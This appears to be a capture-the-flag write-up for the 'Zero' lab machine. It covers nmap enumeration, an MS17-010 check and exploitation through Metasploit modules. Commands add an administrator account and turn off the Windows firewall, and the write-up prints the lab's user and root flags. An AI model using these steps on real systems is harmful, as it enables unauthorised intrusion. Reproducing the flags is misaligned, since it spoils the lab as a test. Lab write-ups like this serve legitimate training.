

# ZERO

### Enumeration



Upon entering, I perform a scan to discover the surrounding environment using `sudo arp-scan -l`. After identifying the target machine's IP address as 192.168.0.109, I use nmap to scan what services the victim is running.

```jsx
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -T4 --min-rate 10000 -p- 192.168.0.109
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-24 04:29 -0400
Warning: 192.168.0.109 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.0.109
Host is up (0.00061s latency).
Not shown: 64930 closed tcp ports (reset), 581 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       (generic dns response: SERVFAIL)
| fingerprint-strings:
|   DNS-SD-TCP:
|     _services
|     _dns-sd
|     *udp
|*    local
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-08-24 22:29:30Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: zero.hmv, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: ZERO)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: zero.hmv, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  msrpc        Microsoft Windows RPC
49687/tcp open  msrpc        Microsoft Windows RPC
49715/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=8/24%Time=6A8C00FB%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
MAC Address: 08:00:27:E9:89:C9 (Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Scanning full ports using `nmap -sV -sC -T4 --min-rate 10000 -p- 192.168.0.109`, the results show that this is Windows Server 2016 Domain Controller (DC01.zero.hmv). Notable ports: 53 (DNS), 88 (Kerberos), 445 (SMB), 5985 (WinRM). Target runs SMB on port 445 — this is the main attack vector. Afterwards, I search for publicly disclosed vulnerabilities related to SMB.


There is 1 result matching what I need to find, which is **CVE-2017-0144 (MS17-010)**. This vulnerability allows an attacker to send specially crafted packets to a vulnerable computer and execute code on it without any login credentials. I need to verify again to make sure whether this machine has the CVE I searched for or not.

### **Vulnerability Verification**

Use nmap script to check if target is vulnerable to MS17-010:

`nmap --script smb-vuln-ms17-010 -p 445 192.168.0.109`


The result confirms target is vulnerable to MS17-010. Then I proceed to exploit to perform RCE.

### **Vulnerability Exploitation**

I use Metasploit to exploit vulnerability MS17-010. Initially tried modules `exploit/windows/smb/ms17_010_eternalblue` and `ms17_010_psexec` to get shell directly but both failed due to unstable kernel attack exploit and firewall blocking reverse shell.

Switched to module `auxiliary/admin/smb/ms17_010_command`. This module is lighter, only executing 1 system command with SYSTEM privileges without needing to create a reverse shell:


Executed 3 commands:

1. `net user hacker Password123! /add` — create new user
2. `net localgroup Administrators hacker /add` — add to Admin group
3. `netsh advfirewall set allprofiles state off` — turn off firewall


After having valid credentials and firewall turned off, use module `exploit/windows/smb/psexec` to log in with the newly created user to get Meterpreter shell:


Use `getsystem` to escalate privileges to SYSTEM and I execute cat flag.


Thus, I have successfully escalated privileges to system.

I proceed to retrieve `userflag` and `rootflag`.

### FLAG

#### USERFLAG : `HMV{D0nt_r3us3_p4$$w0rd5!}`


#### ROOTFLAG   :  `HMV{Z3r0_l0g0n_!s_Pr3tty_D4ng3r0u$}`


